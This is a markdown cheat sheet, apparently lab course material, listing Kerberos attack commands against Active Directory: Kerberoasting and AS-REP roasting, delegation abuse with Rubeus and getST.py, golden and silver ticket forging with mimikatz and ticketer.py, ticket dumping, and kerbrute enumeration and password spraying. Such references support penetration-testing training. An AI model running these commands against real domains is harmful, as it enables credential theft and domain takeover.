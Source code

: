 # Cheat Sheets&#x20;

| `Command`                                                                                                                                                                         | `Description`                                                         |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------- |
| `Invoke-Kerberoast`                                                                                                                                                               | Get Kerberoastable accounts & hashes on Windows                       |
| `GetUserSPNs.py inlanefreight.local/pixis`                                                                                                                                        | Get Kerberoastable accounts & hashes on Linux                         |
| `Get-DomainUser -UACFilter DONT_REQ_PREAUTH`                                                                                                                                      | Get AS-Rep roastable accounts & hashes on Windows                     |
| `GetNPUsers.py inlanefreight.local/pixis`                                                                                                                                         | Get AS-Rep roastable accounts & hashes on Linux                       |
| `Rubeus.exe monitor /interval:5`                                                                                                                                                  | Monitor TGT copies in TGS every 5 secondes (Unconstrained Delegation) |
| `Rubeus.exe asktgs /ticket:<b64 ticket> /service:<SPN> /ptt`                                                                                                                      | Get a TGS using a TGT                                                 |
| `Rubeus.exe renew /ticket:<b64 ticket> /ptt`                                                                                                                                      | Renew a TGT and pass it in memory                                     |
| `Get-DomainComputer -TrustedToAuth`                                                                                                                                               | Get service accounts with constrained delegation on Windows           |
| `Rubeus.exe s4u /impersonateuser:<User> /msdsspn<SPN> /altservice:<SRV> /user:<USR> /rc4:<NT Hash> /ptt`                                                                          | Perform a S4U2\* attack on Windows                                    |
| `findDelegation.py inlanefreight.local/pixis`                                                                                                                                     | Get service accounts with delegation on Linux                         |
| `getST.py -spn <SPN> -hashes :<NT Hash> 'domain/user' -impersonate <user>`                                                                                                        | Perform a S4U2\* attack on Linux                                      |
| `mimikatz # kerberos::golden /domain:<domain> /user:<user> /sid:<Domain SID> /rc4:<krbtgt NT hash> /ptt`                                                                          | Forge a golden ticket on Windows                                      |
| `ticketer.py -nthash <krbtgt NT hash> -domain-sid :<Domain SID> -domain <domain> <user>`                                                                                          | Forge a golden ticket on Linux                                        |
| `mimikatz # kerberos::golden /domain:inlanefreight.local /user:<user> /sid:<Domain SID> /rc4: <Service account NT hash> /target:<target service account> /service:<service> /ptt` | Forge a silver ticket on Windows                                      |
| `ticketer.py -nthash <Service account NT hash> -domain-sid <Domain SID> -domain <domain> -spn <SPN> <User>`                                                                       | Forge a silver ticket on Linux                                        |
| `Rubeus.exe dump /luid:0x89275d /service:krbtgt`                                                                                                                                  | Dumps TGT in memory                                                   |
| `kerbrute userenum users.txt --dc dc01.inlanefreight.local -d inlanefreight.local`                                                                                                | Enumerate user accounts via Kerberos                                  |
| `kerbrute passwordspray users.txt inlanefreight2020 --dc dc01.inlanefreight.local -d inlanefreight.local`                                                                         | Password spraying via TGT request                                     |
